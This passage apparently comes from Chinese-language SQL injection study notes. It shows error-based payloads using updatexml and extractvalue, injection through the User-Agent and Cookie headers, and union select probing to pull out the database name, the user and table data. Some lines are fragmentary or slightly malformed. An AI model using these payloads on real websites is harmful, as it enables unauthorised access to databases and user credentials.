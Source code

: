 ```sql
SELECT username, password FROM users WHERE 0 or 1;
```

大概的思路就是这样，整合的查询语句请跳转**指北代码篇**。



## **基于错误的更新查询 uploadxml 的 POST注入**

这里的更新查询即为使用updatexml函数进行注入，但是username必须为真，也就是你最少要使出`username`才能继续注入。

updatexml()函数

大概格式为
```
UPDATEXML (XML_document, XPath_string, new_value);
函数名      文档            路径字符串    String格式
```


左右括号的十六进制分别是0x28，0x29，+号的16进制为0x2b

大概语句为：


查询数据库：
a' or updatexml (1,concat(0x282b5d,database()),1)#
a' and updatexml (1,concat(0x2b,database()),1)#

查询用户名
a' or updatexml (1,concat(0x282b5d,(select user())),1)#

如果查询的值附带在user-agent中可以尝试在后面加入`updatexml`代码尝试注入。代码同上 但是更改的值为，users的附带浏览器名。

还有第二个函数
extractvalue函数
这个函数只需要两个参数。

查询版本：
```
1 ' or extractvalue(1,concat(0x2b,version())),")#
```

loginname




## **基于cookie头部的POST注入**

在cookie后面输入一个'，尝试一下康康有没有报错，毕竟梦想还是要有的！
 判断列：
 ' order by x#

 获取表中数据

 'union select 1,2,列明 from 表名#

## **登录用户名中注入**
